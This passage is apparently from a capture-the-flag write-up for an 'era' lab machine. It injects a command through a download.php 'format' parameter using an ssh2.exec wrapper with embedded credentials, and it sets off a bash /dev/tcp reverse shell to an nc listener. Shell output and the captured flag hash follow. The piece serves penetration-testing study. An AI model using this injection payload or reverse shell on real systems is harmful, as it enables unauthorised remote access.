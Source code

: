 We got into admin as we can see there are two files that we get from `fuzz`. <br>
&rarr; Let's perform the attack.

First, we need to upload a random file to `upload.php` page and note down the `id` of the file.

```bash
http://file.era.htb/download.php?id=8052
```

Then setup our kali listener.

```bash
└─$ nc -lvnp 3333      
listening on [any] 3333 ...
```

> You can either use this or [pwncat](https://github.com/calebstewart/pwncat) or even [penelope](https://github.com/brightio/penelope).

We gonna use this one `bash -c 'bash -i >& /dev/tcp/10.10.16.22/3333 0>&1;true'` to get a reverse shell.

```bash
http://file.era.htb/download.php?id=8052&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.22%2F3333%200%3E%261;true%27
```

BOOM! We got a reverse shell.

```bash
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.16.22] from (UNKNOWN) [10.129.198.181] 40698
bash: cannot set terminal process group (5132): Inappropriate ioctl for device
bash: no job control in this shell
eric@era:~$ ls -la
ls -la
total 28
drwxr-x--- 5 eric eric 4096 Jul 22 08:42 .
drwxr-xr-x 4 root root 4096 Jul 22 08:42 ..
lrwxrwxrwx 1 root root    9 Jul  2 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 eric eric 3771 Jan  6  2022 .bashrc
drwx------ 2 eric eric 4096 Sep 17  2024 .cache
drwxrwxr-x 3 eric eric 4096 Jul 22 08:42 .local
drwx------ 2 eric eric 4096 Sep 17  2024 .ssh
-rw-r----- 1 root eric   33 Jul 28 14:55 user.txt
eric@era:~$ cat user.txt
cat user.txt
0b03d09e6b5ea3b0e5296f1e165dca56
```

Nailed the `user.txt` flag.

I have tried the [penelope](https://github.com/brightio/penelope) and it works.

```bash
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 172.16.147.139 • 10.10.16.26
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from era~10.129.253.96-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/era~10.129.253.96-Linux-x86_64/2025_07_31-11_49_59-998.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
eric@era:~$ id
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)
```